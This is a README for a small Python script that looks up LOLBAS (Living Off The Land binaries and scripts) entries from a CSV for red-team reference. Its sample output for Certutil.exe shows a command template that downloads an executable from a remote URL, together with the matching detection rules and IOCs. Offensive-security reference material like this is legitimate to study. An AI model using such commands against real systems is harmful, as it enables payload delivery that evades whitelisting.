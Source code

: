![Image](https://github.com/user-attachments/assets/cd78bde6-e3ea-462d-9402-f1c6dc9ef408)

## Description
This simple Python script uses a CSV from [LOLBAS Project](https://lolbas-project.github.io/) to get information about LOLBins & LOLScripts conveniently in the terminal and offline, for Red Team purposes

## What is LOLBAS
As they themselves identify their project:

The goal of the LOLBAS project is to document all binaries, scripts and libraries that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
- Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    - Exceptions are application whitelisting bypasses.
- Have functionality that would be useful to an APT or red team.

Summary: These are "native" binaries of MS(Windows) based systems that allow from their functionalities to be exploited for cybersecurity purposes.

## Install
```
git clone https://github.com/D4nex/lolbas-info/
cd lolbas-info
pip install colorama
```

## Usage
```
python3 lolbasinfo.py -h
```
![lolbasimage](https://github.com/user-attachments/assets/c1313ed5-615b-4f49-8a96-8514a592f63d)

```
python3 lolbasinfo.py -l
```
List all available LOLBAS included in the csv to get your information.

```
python3 lolbasinfo.py -lol <lolbin/lolscript>
```
Get information about the selected LOLBAS.
```console
d4nex@pwn:~$ python3 lolbasinfo.py -lol Certutil.exe
      __        __        __             ___  __
|    /  \ |    |__)  /\  /__`    | |\ | |__  /  \
|___ \__/ |___ |__) /~~\ .__/    | | \| |    \__/
                      author: D4nex


[+] Filename: Certutil.exe
[+] Description: Windows binary used for handling certificates
        >_ Command: certutil.exe -urlcache -split -f {REMOTEURL:.exe} {PATH:.exe}
        >_ Command Description: Download and save executable to disk in the current folder.
        >_ Command Usecase: Download file from Internet
        >_ Command Category: [Download]
        >_ Command Privileges: [User]
        >_ Operating System: [Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11]
        *_ Paths: [C:\Windows\System32\certutil.exe, C:\Windows\SysWOW64\certutil.exe]
        !_ Detections: (Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_download.yml, Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_encode.yml, Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_decode.yml, Elastic: https://github.com/elastic/detection-rules/blob/4a11ef9514938e7a7e32cf5f379e975cebf5aed3/rules/windows/defense_evasion_suspicious_certutil_commands.toml, Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/command_and_control_certutil_network_connection.toml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_urlcache_and_split_arguments.yml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_verifyctl_and_split_arguments.yml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_with_decode_argument.yml, IOC: Certutil.exe creating new files on disk, IOC: Useragent Microsoft-CryptoAPI/10.0, IOC: Useragent CertUtil URL Agent)
        *_ Resources: https://twitter.com/Moriarty_Meng/status/984380793383370752, https://twitter.com/mattifestation/status/620107926288515072, https://twitter.com/egre55/status/1087685529016193025
        *_ URL: https://lolbas-project.github.io/lolbas/Binaries/Certutil/
        *_ Tags: []
```

## Issues
- Please note that this script was developed for personal use (automation and convenience) so it may contain errors.
- 错误和异常处理
- 面向对象编程，优化结构
- 对代码的评论
